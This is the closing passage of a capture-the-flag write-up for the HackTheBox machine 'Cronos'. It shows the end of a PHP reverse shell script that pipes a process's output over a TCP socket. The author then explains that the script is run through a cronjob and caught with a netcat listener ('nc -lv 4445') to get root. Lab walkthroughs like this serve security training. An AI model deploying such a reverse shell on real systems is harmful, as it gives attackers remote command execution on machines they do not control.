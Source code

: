 ```php
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

We need to change the ip and the port to our listening ports.

Now only rests to set a listener and wait until the cronjob is executed.

```bash
nc -lv 4445
```

![Untitled](/HTB/cronos-9.png)

Let’s cat the **root’s flag**

![Untitled](/HTB/cronos-10.png)

**Thank you for reading, and happy hacking! 😄**
